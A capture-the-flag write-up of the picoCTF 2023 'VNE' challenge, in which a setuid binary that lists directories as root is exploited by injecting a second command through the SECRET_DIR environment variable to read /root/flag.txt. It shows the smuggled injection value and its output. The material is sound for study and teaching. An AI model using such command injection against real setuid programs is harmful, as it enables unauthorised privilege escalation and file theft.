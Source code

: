 # VNE

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 200
Tags: picoCTF 2023, Binary Exploitation, bash, env, injection
Author: JUNIAS BONOU

Description:
We've got a binary that can list directories as root, try it out !!

ssh to saturn.picoctf.net:61680, and run the binary named "bin" once connected. 
Login as ctf-player with the password, d8819d45
 
Hints:
1. Have you checked the content of the /root folder
2. Find a way to add more instructions to the ls
```
Challenge link: [https://play.picoctf.org/practice/challenge/387](https://play.picoctf.org/practice/challenge/387)

## Solution

### Connect to the server

We start by connecting to the server
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2023/Binary_Exploitation/VNE]
└─$ ssh -p 61680 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:61680 ([13.59.203.175]:61680)' can't be established.
ED25519 key fingerprint is SHA256:HPhB80jvwzwsykN/XSDUt9zGDYpkIHHd9PMoDlkzWpw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:61680' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ 
```

And then we look for the `bin` binary mentioned in the challenge description
```bash
ctf-player@pico-chall$ ls -la
total 24
drwxr-xr-x 1 ctf-player ctf-player    20 Nov  5 08:46 .
drwxr-xr-x 1 root       root          24 Aug  4 22:04 ..
drwx------ 2 ctf-player ctf-player    34 Nov  5 08:46 .cache
-rw-r--r-- 1 root       root          67 Aug  4 22:05 .profile
-rwsr-xr-x 1 root       root       18752 Aug  4 22:05 bin
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ 
```
Note that the `bin` binary has the [setuid](https://en.wikipedia.org/wiki/Setuid) bit set!

Ok, let's set the `SECRET_DIR` [environment variable](https://en.wikipedia.org/wiki/Environment_variable) to `/root` as suggested in the hints.

### Set the environment variable

```bash
ctf-player@pico-chall$ SECRET_DIR=/root
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ export SECRET_DIR
ctf-player@pico-chall$ ./bin
Listing the content of /root as root: 
flag.txt
```
We can list any directory of our choice as root.  
The program probable does something like `ls $SECRET_DIR`.  
Let's try to verify this
```bash
ctf-player@pico-chall$ SECRET_DIR="-l /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of -l /root/flag.txt as root: 
-rw------- 1 root root 41 Aug  4 22:05 /root/flag.txt
```
Great, now we can [inject additional commands](https://en.wikipedia.org/wiki/Code_injection) in the variable to get the flag as suggested in the hints.

### Get the flag

Let's append a `cat` command and an `echo` command to easier read the output
```bash
ctf-player@pico-chall$ SECRET_DIR="-l /root/flag.txt; cat /root/flag.txt; echo"
ctf-player@pico-chall$ ./bin
Listing the content of -l /root/flag.txt; cat /root/flag.txt; echo as root: 
-rw------- 1 root root 41 Aug  4 22:05 /root/flag.txt
picoCTF{<REDACTED>}
ctf-player@pico-chall$ 
```

And there we have the flag.

For additional information, please see the references below.

## References

- [Wikipedia - Code injection](https://en.wikipedia.org/wiki/Code_injection)
- [Wikipedia - Environment variable](https://en.wikipedia.org/wiki/Environment_variable)
- [Wikipedia - Setuid](https://en.wikipedia.org/wiki/Setuid)
